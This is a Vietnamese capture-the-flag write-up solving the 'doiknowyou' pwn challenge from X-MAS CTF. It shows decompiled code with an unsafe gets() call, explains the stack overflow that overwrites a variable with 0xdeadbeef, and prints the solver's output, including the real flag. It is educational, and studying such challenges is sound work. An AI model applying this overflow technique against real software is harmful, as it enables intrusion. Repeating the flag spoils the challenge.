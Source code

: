 # Writeup X-MASCTF 
> # Author: Quasar (Team: UIT.ζp33d_0∫_Ψ1m3)
# Challenge Name : 
![screenshot](https://github.com/19520611/Writeup/raw/main/xmasCTF/img/doiknowyou1.PNG)
Bài này có điểm số là 45. Đầu tiên mình sẽ đi vào những phân tích cơ bản qua các lệnh file và checksec:
```
higgs@DESKTOP-PMDB9KR:/mnt/c/Users/19520/Music/X-MasCTF/doiknowyou$ file chall
chall: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e0e53c0345a73991671f9f6548621739ae38efda, stripped
higgs@DESKTOP-PMDB9KR:/mnt/c/Users/19520/Music/X-MasCTF/doiknowyou$ checksec chall
[*] '/mnt/c/Users/19520/Music/X-MasCTF/doiknowyou/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
``` 

Mình sẽ dùng IDA pro để xem mã giả c:
```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char v4; // [rsp+0h] [rbp-30h]
  __int64 v5; // [rsp+20h] [rbp-10h]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  puts("Hi there. Do I recognize you?");
  gets(&v4, 0LL);
  if ( v5 != 0xDEADBEEFLL )
  {
    puts("Nope.....I have no idea who you are");
    exit(0);
  }
  puts("X-MAS{Fake flag. You'll get the real one from the server }");
  return 0LL;
}
```
Đọc mã giả bạn sẽ thấy rằng chương trình bị lỗi buffer overflow tại hàm gets. Ở bài này bạn chỉ cần đè 4 bytes tại offset $rbp-0x10 bằng 0xdeadbeef (tức là biến v5 như IDA pro hiển thị) thì khi chạy trên server chỗ "puts("X-MAS{" sẽ in ra flag thật cho chúng ta (gợi ý ở hàm puts):
```
higgs@DESKTOP-PMDB9KR:/mnt/c/Users/19520/Music/X-MasCTF/doiknowyou$ python echall.py
[+] Opening connection to challs.xmas.htsp.ro on port 2008: Done
[*] Switching to interactive mode
X-MAS{ah_yes__i_d0_rememb3r_you}
[*] Got EOF while reading in interactive
```